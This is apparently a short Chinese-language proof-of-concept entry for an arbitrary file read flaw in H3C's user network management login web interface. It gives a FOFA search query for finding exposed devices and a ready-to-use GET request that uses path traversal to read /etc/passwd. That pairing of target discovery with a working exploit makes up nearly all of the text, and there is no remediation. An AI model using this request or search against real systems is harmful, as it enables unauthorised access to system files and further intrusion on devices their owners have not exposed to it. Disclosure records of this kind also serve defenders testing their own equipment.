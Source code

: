 # H3C用户网管登录系统jQuery-1.7.2任意文件读取漏洞
## 资产搜索
fofa body="webui/js/jquerylib/jquery-1.7.2.min.js"  
![](img/index.png)
## POC
`GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down`  
![](img/poc.png)